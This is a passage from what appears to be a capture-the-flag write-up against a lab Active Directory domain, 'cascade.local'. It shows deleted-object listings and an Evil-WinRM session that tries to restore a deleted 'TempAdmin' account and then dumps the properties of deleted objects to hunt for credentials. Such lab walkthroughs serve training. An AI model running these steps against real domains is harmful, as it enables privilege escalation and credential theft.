 Deleted           : True
DistinguishedName : CN=Scheduled Tasks\0ADEL:13375728-5ddb-4137-b8b8-b9041d1d3fd2,CN=Deleted Objects,DC=cascade,DC=local
Name              : Scheduled Tasks
                    DEL:13375728-5ddb-4137-b8b8-b9041d1d3fd2
ObjectClass       : group
ObjectGUID        : 13375728-5ddb-4137-b8b8-b9041d1d3fd2

Deleted           : True
DistinguishedName : CN={A403B701-A528-4685-A816-FDEE32BDDCBA}\0ADEL:ff5c2fdc-cc11-44e3-ae4c-071aab2ccc6e,CN=Deleted Objects,DC=cascade,DC=local
Name              : {A403B701-A528-4685-A816-FDEE32BDDCBA}
                    DEL:ff5c2fdc-cc11-44e3-ae4c-071aab2ccc6e
ObjectClass       : groupPolicyContainer
ObjectGUID        : ff5c2fdc-cc11-44e3-ae4c-071aab2ccc6e

Deleted           : True
DistinguishedName : CN=Machine\0ADEL:93c23674-e411-400b-bb9f-c0340bda5a34,CN=Deleted Objects,DC=cascade,DC=local
Name              : Machine
                    DEL:93c23674-e411-400b-bb9f-c0340bda5a34
ObjectClass       : container
ObjectGUID        : 93c23674-e411-400b-bb9f-c0340bda5a34

Deleted           : True
DistinguishedName : CN=User\0ADEL:746385f2-e3a0-4252-b83a-5a206da0ed88,CN=Deleted Objects,DC=cascade,DC=local
Name              : User
                    DEL:746385f2-e3a0-4252-b83a-5a206da0ed88
ObjectClass       : container
ObjectGUID        : 746385f2-e3a0-4252-b83a-5a206da0ed88

Deleted           : True
DistinguishedName : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
Name              : TempAdmin
                    DEL:f0cc344d-31e0-4866-bceb-a842791ca059
ObjectClass       : user
ObjectGUID        : f0cc344d-31e0-4866-bceb-a842791ca059
```
There is the `TempAdmin` user we were looking for.  We can restore it with `Restore-ADObject -Identity "<ObjectGUID>"`
```
*Evil-WinRM* PS C:\Program Files (x86)> Restore-ADObject -Identity "f0cc344d-31e0-4866-bceb-a842791ca059"
Insufficient access rights to perform the operation
At line:1 char:1
+ Restore-ADObject -Identity "f0cc344d-31e0-4866-bceb-a842791ca059"
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (CN=TempAdmin\0A...ascade,DC=local:ADObject) [Restore-ADObject], ADException
    + FullyQualifiedErrorId : 0,Microsoft.ActiveDirectory.Management.Commands.RestoreADObject
```
WEll that looks like a bust...what else can this user do with a deleted account?

```
*Evil-WinRM* PS C:\Program Files (x86)> Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
